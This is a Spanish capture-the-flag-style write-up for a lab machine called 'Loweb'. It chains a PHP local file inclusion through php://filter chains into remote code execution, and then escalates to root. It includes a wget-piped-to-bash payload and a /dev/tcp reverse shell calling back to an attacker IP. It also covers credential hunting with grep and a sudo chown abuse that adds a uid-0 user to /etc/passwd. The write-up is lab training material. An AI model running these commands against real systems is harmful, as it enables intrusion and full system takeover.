**Payload usado en CAIDO**

```html
GET /library/admin/index.php?lang=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
```

### 🧠 ¿Por qué funciona?

Porque el archivo vulnerable (`index.php`) contiene algo como:

```html
$lang = isset($_GET['lang']) ? $_GET['lang'] : '';
include($lang);
```

No hay validación ni sanitización de entrada. Esto permite:

- Incluir cualquier archivo del servidor (LFI).
- Usar el wrapper `php://filter` para aplicar filtros a la lectura del archivo.
- En este caso, el filtro `convert.base64-encode` codifica el contenido del archivo a base64.
- El archivo incluido (`index.php`, `script.php`, etc.) **no se ejecuta**, sino que su contenido se muestra codificado.


## **Wrapper con php_filter_chain_generator**

El repositorio [**php_filter_chain_generator**](https://github.com/synacktiv/php_filter_chain_generator) está diseñado para **generar cadenas de filtros `php://filter`** utilizadas en **exploits LFI (Local File Inclusion)** para lograr una **lectura remota de archivos sensibles** (como `index.php`, `config.php`, etc.) incluso cuando están protegidos o solo accesibles parcialmente.

---

### 🔍 ¿Qué hace exactamente?

Genera una **cadena de filtros encadenados** en PHP (`php://filter`) que permite:

- **Codificar un archivo en base64**.

### ¿Qué incluye el proyecto?

- Script en Python para generar las cadenas de filtros (`php_filter_chain_generator.py`).

### ✅ 1. Crear payload (reverse shell en Bash)

```jsx
**echo 'bash -i >& /dev/tcp/IP_LOCAL/443 0>&1' > Zayrus_shell ; chmod +x Zayrus_shell**
```

### 🌐 2. Levantar servidor web donde está el archivo

```bash
python3 -m http.server 80
```

Esto servirá el archivo Zayrus_shell en `http://IP_LOCAL/Zayrus_shell`

### 📞 3. Poner en escucha con Netcat

```bash
nc -nlvp 443
```


### 🧪 4. Generar wrapper con `php_filter_chain_generator`

```bash
└─$ python3 php_filter_chain_generator.py --chain '<?=`wget -O- 192.168.11.11/Z|bash`?>'
```

Esto generará un **payload largo**, algo como:

```bash
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode
```

📌 **Importante:** si el wrapper es largo generará error 


# 🔓 INTRUSIÓN - ESCALANDO PRIVILEGIOS

🎯 Se ha conseguido una **reverse shell** como el usuario `www-data`, lo cual confirma que se ha logrado **Remote Code Execution (RCE)** exitosamente. Ahora me encuentro dentro del sistema.

## 🔢 **Enumeración** 🔢

### 🖥️ Información del sistema

```bash
uname -a
```


### 👤 Información de usuarios

```bash
cat /etc/passwd
```


### 🔐 Revisar si puedes usar sudo

```bash
sudo -l
```


### 🔍 Buscar credenciales en archivos

```bash
grep -Ri 'password' / 2>/dev/null
```

Es una búsqueda **recursiva e insensible a mayúsculas** de la palabra **"password"** en **todos los archivos del sistema (`/`).**


### 🔍 Desglose parte por parte:

| Componente | Explicación |
| --- | --- |
| `grep` | Herramienta de búsqueda de texto en archivos. |
| `-R` | Búsqueda **recursiva** en todos los subdirectorios. |
| `-i` | **Ignora mayúsculas/minúsculas**, por lo que detecta `password`, `Password`, etc. |
| `"password"` | Cadena de texto a buscar. |
| `/` | Directorio raíz — es decir, **todo el sistema de archivos**. |
| `2>/dev/null` | **Redirige errores** (como "Permiso denegado") al "vacío", para no verlos. |

Usuario: r3dh4ck

Contraseña: contraseñaconÑjeje

## Conexión SSH y Usuario 💣ROOT💣

Usuario: r3dh4ck

Contraseña: contraseñaconÑjeje

### 📜 1**. Ver privilegios con `sudo -l`**


🔓 Esto significa: **el usuario `r3dh4ck` puede ejecutar el comando `chown` como root sin contraseña**.

### 🛠️ 2**. Usar `chown` para ganar control de un archivo del sistema**

```bash
sudo /usr/bin/chown r3dh4ck:r3dh4ck /etc

```


### 📘 ¿Qué hace esto?

- `chown usuario:grupo archivo` → Cambia el dueño de un archivo.
- En este caso, se cambio la propiedad de **/etc** (carpeta crítica) para que tú (`r3dh4ck`) fueras el dueño.

🎯 **Esto te permite escribir archivos dentro de /etc**, incluyendo uno MUY importante: `/etc/passwd`.

### 🧬 3**. Editar `/etc/passwd` para crear un root falso**

```bash
openssl passwd -1 'toor'
```

### 📘 ¿Qué hace esto?

- Crea un **hash MD5 de la contraseña `toor`**.

Luego, editaste `/etc/passwd` 

```bash
root2:"hash_openssl":0:0:root:/root:/bin/bash
```

### ✅ Resultado final:

Acceso como **root completo**.


# 📌 **Nota extra: otras rutas de explotación posibles** 📌

Además de la vía principal usada (LFI + wrapper + RCE + `chown` → root), durante el análisis se identificaron otras **alternativas válidas** para comprometer o escalar en la máquina **Loweb.**

- sqlmap
- Eliminar el hash en /etc/shadow del usuario root e ingresar sin contraseña y o añadir un usuario con privilegios de root.

| 🧩 **Área** | 📘 **Lo aprendido** |
| --- | --- |
| 🔎 Enumeración | Identificar rutas ocultas y servicios con `nmap`, `whatweb`, `gobuster`. |
| 🧨 Inyección SQL (SQLi) | Explotar login vulnerable manualmente y con `sqlmap` para extraer datos. |
| 📂 LFI + php://filter | Leer archivos `.php` sin ejecutarlos usando wrappers (`php://filter`). |
| 🖥️ RCE | Transformar LFI en Reverse Shell con `php://filter` |
| 🔐 Escalada de privilegios | Usar `sudo chown` para modificar `/etc/passwd`  |
| 🕵️ Recolección de credenciales | Buscar contraseñas con `grep -Ri 'password' /`. |
| ⚠️ Seguridad web | Peligro de `include()` inseguro y contraseñas hardcodeadas. |
